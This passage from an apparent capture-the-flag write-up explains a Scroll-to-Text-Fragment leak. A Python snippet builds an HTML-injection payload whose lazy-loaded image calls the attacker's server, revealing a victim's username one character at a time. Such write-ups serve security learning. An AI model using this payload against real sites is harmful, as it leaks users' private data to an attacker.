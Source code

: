 <figure><img src="../../.gitbook/assets/2025-09-10_19-50.png" alt=""><figcaption></figcaption></figure>

We know from this function that each word is associated with an emoji. we will use that emoji an the anchor in this challenge STTF.&#x20;

This is how we will exfiltrate the username. Unfortunately, it wont be as direct as that.  The username is located at the top of the page. If we put the image up there, we wont be able to differentiate if the STTF triggered or not because the image will always be loaded instantly.

Instead, we make a list of possible characters of the username and checks for characters that aren't in the username. We put a \<div> with a super long height followed with the text "IFHITNOTCHAR" and image with lazy loading. We then use two text in the STTF, <mark style="color:$warning;">`#:~:text={emoji}%0A{char_guess}&text=IFHITNOTCHAR`</mark>. if the first text, the guessed char, isn't found then the browser will auto scroll to the second text, which exist and unique, and so will trigger the image load.

<figure><img src="../../.gitbook/assets/2025-09-10_22-33.png" alt=""><figcaption></figcaption></figure>

So if the STTF doesn't find the first text --meaning the guessed char not in the username-- it will auto scroll to the bottom and triggers the lazy load and fetch to our attack website <mark style="color:$success;">/hit</mark> endpoint. There we will remove the character from our list of possible characters.

```python
anchor = ""
for emoji in EMOJIS:
    anchor += f"text={emoji}%0A{char}&"
payload = f"<div style='height: 10000px; width:100%; display: block;'>padding</div><div style='display: block'> IFHITNOTCHAR </div><img loading='lazy' src='{context['my_server']}/hit2/{char}'>"
sstf_payload = f"#:~:{anchor}text=IFHITNOTCHAR" 
target_with_payload = context['target_internal'] + f"/dashboard?cok={quote(payload)}{sstf_payload}"
return render_template("redirect.html", url=target_with_payload)
```

I made a list of character of lowercase and uppercase letters, numbers, and some special characters <mark style="color:$warning;">`!$()*,-.:_`</mark>. And make every emoji pair up with a single character and send it at once. This way we first check for any characters that aren't pair up with any emojis, or so to say <mark style="color:$danger;">aren't</mark> in the username.
